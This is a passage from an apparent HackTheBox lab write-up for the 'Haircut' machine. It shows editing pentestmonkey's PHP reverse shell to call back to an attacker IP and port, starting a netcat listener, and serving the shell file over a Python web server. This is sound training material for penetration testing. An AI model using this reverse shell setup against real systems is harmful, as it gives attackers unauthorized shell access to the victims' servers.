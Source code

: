 <br />
Update the IP address to the HackTheBox VPN IP address.  Update the port that will be used for the attack port.

{% raw %}
```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.

<snip>

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.16.3';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 443;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

<snip>

?>
```
{% endraw %}

<br />
Start a netcat listener.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/haircut]
└─$ nc -nlvp 1234
listening on [any] 1234 ...
```
{% endraw %}

<br />
Use python to start a web server to serve the ptm reverse shell that was just updated.

{% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/haircut]
└─$ sudo python -m http.server 80             
[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
{% endraw %}
